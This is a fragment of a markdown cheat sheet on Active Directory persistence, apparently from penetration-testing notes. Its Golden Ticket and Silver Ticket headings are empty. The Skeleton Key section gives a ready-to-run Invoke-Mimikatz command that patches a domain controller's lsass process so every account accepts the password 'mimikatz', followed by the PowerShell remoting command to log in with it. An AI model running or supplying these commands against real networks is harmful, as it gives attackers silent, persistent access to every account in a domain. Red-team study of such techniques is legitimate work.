 ## Persistence on Active Directory 

### Golden Ticket



### Silver Ticket


### Skeleton Key
Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
```powershell
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>
```
Access with password `mimikatz`
```powershell
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
### MORE





